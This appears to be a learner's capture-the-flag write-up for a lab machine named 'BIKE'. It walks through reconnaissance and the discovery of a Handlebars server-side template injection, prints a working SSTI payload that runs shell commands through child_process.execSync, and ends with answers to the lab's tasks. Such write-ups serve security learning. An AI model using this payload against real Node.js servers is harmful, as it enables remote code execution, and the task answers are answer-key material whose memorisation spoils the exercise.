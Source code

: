 # BIKE

First reaction nmap and going to the navigator seeing if is there anything reachable.<br/><br/>
Nmap reach two ports the 22 and the 80.<br/>
On the port 22 there is like always the ssh service! <br/>
And on the port 80 we can see that there is a service called `Node.js`<br/>
On the navigator something is reachable but nothing really exploitable.<br/>
So first thing first let's do a gobuster!!! <br/><br/>
Nothing!!! Hum... <br/>

According to wapalyser we can know that the framework used to run the site is express.<br/><br/>

Now that we have all oh this and after some research I did have to go to the walktrough and notice that I have to learn something new! The `server side template injection`. 🫠 <br/>

So let's close the welktrough and trying by myself!! Let's go to Hacktrick!<br/>
I learn that there is some test to do to know what's the engine running on this server! [Source](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)<br/>
So I did a `fuzzing template`! and noticed that an error occur and i can read on the 4th line the root used by the server to run it and, also discovered the service running it is `handlebars`! <br/>
Let's visit the payloads i got from git hub! `Server Side Template Injection` directory opening the read me and looking for the handlebars engine!<br/><br/>

Here's what i got:

```bash
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Directly try it on the website!! Obviously nothing happend, still an error occur! <br/>
... research 😑<br/><br/>

I have to convert it with decoder in Burpsuit!! `URL`! Try it again!! No error anymore the website just return the the url i gave in the comment below the email entry bar.<br/>
So now I have to adjust the code to get what I want! 🥵




## Task 01
```bash
22,80
```
---
## Task 02
```bash
node.js
```
---
## Task 03
```bash
express
```
---
## Task 04
```bash
server side template injection
```
---
## Task 05
```bash
handlebars
```
---
## Task 06
```bash
decoder
```
---

